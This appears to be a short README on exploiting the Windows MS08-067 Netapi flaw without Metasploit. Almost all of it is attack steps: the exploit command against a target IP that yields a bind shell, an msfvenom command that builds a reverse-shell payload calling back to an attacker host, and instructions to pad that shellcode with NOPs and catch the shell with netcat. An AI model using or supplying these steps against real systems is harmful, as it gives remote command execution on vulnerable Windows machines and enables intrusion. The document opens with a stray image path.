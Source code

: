 # Netapi MS08-067 without metasploit

Reference:
https://www.exploit-db.com/exploits/7132
https://www.exploit-db.com/exploits/40279	(Reverse shell modification of above payload but not working).

7132.py directly bind shell to port 4444 at server(No code modification required).
Exploit: python 7132.py 192.168.1.6 2	(& got bind shell at server side port 4444)

Above code can ge modified to get reverse shell:
i. Generate shellcode using msfvenom: msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.21 LPORT=5253 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f python -a x86 --platform windows
ii. Replace shellcode with above generated code.
iii. Add '\0x90' such that total size of payload becomes equal to 360 bytes(same as the size of bind shellcode of the exploit).

[Size of my payload generated = 348 bytes so addded "\x90" *12 to my shellcode]

& get reverse shell on nc :).
